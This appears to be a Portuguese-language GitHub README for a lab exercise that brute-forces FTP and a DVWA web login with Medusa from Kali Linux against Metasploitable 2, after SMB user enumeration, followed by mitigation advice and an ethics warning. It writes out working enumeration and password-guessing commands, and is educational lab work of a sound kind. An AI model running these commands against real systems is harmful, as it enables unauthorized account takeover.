



#### ☕ Simulação de Ataque de Força Bruta com Medusa e Kali Linux


Este projeto documenta uma auditoria de segurança prática realizada em ambiente controlado, utilizando o **Kali Linux** contra o alvo **Metasploitable 2**. O objetivo foi explorar vulnerabilidades de autenticação em diferentes serviços (FTP, HTTP e SMB) para validar conceitos de Cybersecurity e aplicar medidas de mitigação.

---

#### ☕ Tecnologias e Ferramentas Utilizadas

| Categoria | Tecnologia |
|---|---|
| Sistema Operacional (Atacante) | Kali Linux |
| Alvo Vulnerável | Metasploitable 2 e DVWA |
| Ferramenta de Auditoria | Medusa |
| Enumeração e Reconhecimento | `enum4linux`, `Nmap`, `smbclient` |
| Ambiente de Laboratório | VirtualBox em rede Host-Only |

---

#### ☕ Desenvolvimento do Projeto

#### 1. Enumeração de Usuários (Protocolo SMB)

A primeira etapa consistiu no reconhecimento do alvo. Utilizei o `enum4linux` para extrair informações do serviço SMB, o que permitiu identificar usuários válidos e estruturar uma wordlist assertiva para os ataques seguintes.

```bash
# Comando utilizado para enumeração completa
enum4linux -a 192.168.56.103
```

> 🤎 

---

#### 2. Ataque de Força Bruta em FTP

Com a lista de usuários em mãos, utilizei o Medusa para realizar um ataque de dicionário contra o serviço FTP. O ataque foi bem-sucedido ao identificar credenciais válidas.

```bash
# Execução do ataque com listas de usuários e senhas
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp
```

> 🤎 

---

#### 3. Ataque em Formulário Web (DVWA)

O cenário mais complexo envolveu a automação de tentativas de login em um formulário HTTP POST. Utilizei os parâmetros do Medusa para identificar o campo de usuário, senha e a mensagem de erro retornada pela aplicação para validar o sucesso.

```bash
# Comando para brute force em formulário HTTP POST
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed'
```

> ☕ 

---

#### ☕ Medidas de Prevenção e Mitigação

Para proteger infraestruturas contra os ataques simulados neste projeto, as seguintes boas práticas são recomendadas:

| # | Medida | Descrição |
|---|---|---|
| 1 | **Políticas de Senhas Fortes** | Requisitos de complexidade: caracteres especiais, números, letras e tamanho mínimo. |
| 2 | **Account Lockout** | Bloquear temporariamente o acesso após um número determinado de tentativas falhas. |
| 3 | **MFA (Autenticação de Dois Fatores)** | Camada extra de segurança que impede o acesso mesmo com a senha comprometida. |
| 4 | **Monitoramento e IPS** | Sistemas de detecção e prevenção de intrusão que bloqueiam IPs com comportamento suspeito. |

---

> ⚠️ **Aviso Ético:** Esta atividade foi realizada estritamente em ambiente de laboratório para fins de aprendizado acadêmico. Nunca realize testes de intrusão em sistemas sem autorização prévia por escrito.
